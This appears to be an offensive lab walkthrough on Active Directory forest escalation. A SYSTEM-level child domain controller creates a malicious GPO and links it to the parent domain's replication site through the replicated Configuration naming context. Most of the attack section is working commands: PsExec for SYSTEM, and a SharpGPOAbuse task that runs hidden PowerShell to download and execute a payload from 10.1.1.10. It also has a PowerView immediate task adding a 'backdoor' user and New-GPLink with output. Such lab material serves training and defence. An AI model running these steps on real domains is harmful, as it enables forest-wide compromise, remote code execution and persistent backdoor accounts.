

 A child DC with `SYSTEM` access can link GPOs to `Active Directory (AD) replication sites`, including those where parent DCs are located. This involves linking a malicious GPO to the default site `CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=inlanefreight,DC=ad` within the local replica of a child DC and the changes will then be replicated to the parent domain.
 
## Why is happening?
As mentioned in earlier section, the `Configuration Naming Context (NC)` is replicated to all domain controllers within the forest. This implies that a child domain controller (DC) with `SYSTEM` privileges has the ability to access and modify any information stored under the Configuration NC for the entire forest by querying its local replica.

# Attack
## Attack Steps
In summary, a child DC with elevated privileges (i.e., SYSTEM) can leverage its access to the Configuration Naming Context (NC) to manipulate GPOs at the site level, potentially impacting the entire forest through replication to parent domain controllers.

1. Create a malicious Group Policy Object (GPO) on the `Child Domain Controller (DC)`.
2. Query the Root Domain to identify the `replication site` of the `Root Domain`.
3. Link the `created` GPO to the `Default Replication` Site of the Root DC as `SYSTEM`
4. Upon completion of replication, confirm the presence of the created GPO within the `Root DC`.

## Attack Phase
We will login ad SYSTEM over the child domain(DC02.dev.inlanefreight.local) and spawn a powershell session.
Next, we will create a dummy GPO.
```powershell-session
New-GPO -Name Culo -Comment "This is a test GPO."
```
Now we need to open a session as SYSTEM.
```powershell
.\PsExec.exe -i -s powershell.exe
```
Use the https://github.com/FSecureLABS/SharpGPOAbuse to create a immediate task that will add a new user to domain via a task scheduler job hidden in a GPO.
```
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```
Or use the **Powerview.ps1** to do so(remember to execute from a shell as **SYSTEM** otherwise it will fail).
```powershell-session
Import-Module .\PowerView_2.ps1

New-GPOImmediateTask -Verbose -Force -TaskName 'Backdoor' -GPODisplayName "Backdoor" -Command C:\Windows\System32\cmd.exe -CommandArguments "/c net user backdoor B@ckdoor123 /add"
```
Now let's write down the replication site address in DN of the Parent domain we want to replicate the GPO to...
```powershell-session
Get-ADDomainController -Server inlanefreight.ad |Select ServerObjectDN
ServerObjectDN
--------------
CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=INLANEFREIGHT,DC=AD
```
Now we can link it.
```powershell-session
//Open as NTSystem
.\PsExec.exe -s -i powershell.exe
whoami
nt authority\system

//Getting the PATH of Parent DC
$sitePath = "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=INLANEFREIGHT,DC=AD"

//Linking the new GPO at site level 
New-GPLink -Name "Backdoor" -Target $sitePath -Server dev.inlanefreight.ad
GpoId       : 656B8436-38F4-447C-9405-40AC83C34117
DisplayName : Backdoor
Enabled     : True
Enforced    : False
Target      : CN=Default-First-Site-Name,cn=Sites,CN=Configuration,DC=INLANEFREIGHT,DC=AD
Order       : 1 
```


## Troubleshooting
In case of failure of execution please edit your task inside the malicious GPO to run in Parallel.
